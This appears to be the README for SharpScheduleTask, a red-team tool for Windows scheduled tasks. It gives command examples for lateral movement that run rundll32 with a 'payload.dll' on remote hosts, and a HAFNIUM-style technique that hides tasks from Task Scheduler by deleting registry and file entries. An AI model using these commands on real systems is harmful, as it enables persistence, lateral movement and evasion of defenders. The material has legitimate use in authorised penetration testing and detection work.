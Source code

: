 [*] are mandatory fields.

## Example
**Create a scheduled task called "Cleanup" that will be executed every day at 11:30 p.m.**

`SharpScheduleTask.exe /method:create /taskname:Cleanup /trigger:daily /starttime:23:30 /program:calc.exe /description:"description" /author:user1`

**Create a scheduled task called "Cleanup" that will be executed every 4 hours on a remote server**

`SharpScheduleTask.exe /method:create /taskname:Cleanup /trigger:hourly /modifier:4 /program:rundll32.exe /argument:c:\temp\payload.dll /remoteserver:TARGET-PC01`

**Delete a scheduled task called "Cleanup"**

`SharpScheduleTask.exe /method:delete /taskname:Cleanup`

**Execute a scheduled task called "Cleanup"**

`SharpScheduleTask.exe /method:run /taskname:Cleanup`

**Query details for a scheduled task called "Cleanup" under "\Microsoft\Windows\CertificateServicesClient" folder on a remote server**

`SharpScheduleTask.exe /method:query /taskname:Cleanup /folder:\Microsoft\Windows\CertificateServicesClient /remoteserver:TARGET-PC01`

**Query all scheduled tasks under a specific folder "\Microsoft\Windows\CertificateServicesClient" on a remote server**

`SharpScheduleTask.exe /method:query /folder:\Microsoft\Windows\CertificateServicesClient /remoteserver:TARGET-PC01`

**Query all sub-folders in scheduled task**

`SharpScheduleTask.exe /method:queryfolders`

**Perform lateral movement using scheduled task to a remote server using a specific user account**

`SharpScheduleTask.exe /method:move /taskname:Demo /remoteserver:TARGET-PC01 /program:rundll32.exe /argument:c:\temp\payload.dll /user:user1`

**Create a scheduled task called "Cleanup" using hiding scheduled task technique:**

`SharpScheduleTask.exe /method:create /taskname:Cleanup /trigger:daily /starttime:23:30 /program:calc.exe /description:"Some description" /author:user1 /technique:hide`

**Delete a scheduled task called "Cleanup" that used hiding scheduled task technique:**

`SharpScheduleTask.exe /method:delete /taskname:Cleanup /technique:hide`

## Hiding Scheduled Task Technique
This technique was used by threat actor - HAFNIUM and discovered by Microsoft recently. It aims to make the scheduled task unqueriable by tools and unseeable by Task Scheduler.

To use this technique, you are required to have "NT AUTHORITY/SYSTEM" and SharpScheduleTask will do the following for you:
1. Delete "SD" value from "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\\[task name]"
2. Delete scheduled task XML file "C:\Windows\System32\Tasks\\[task name]"
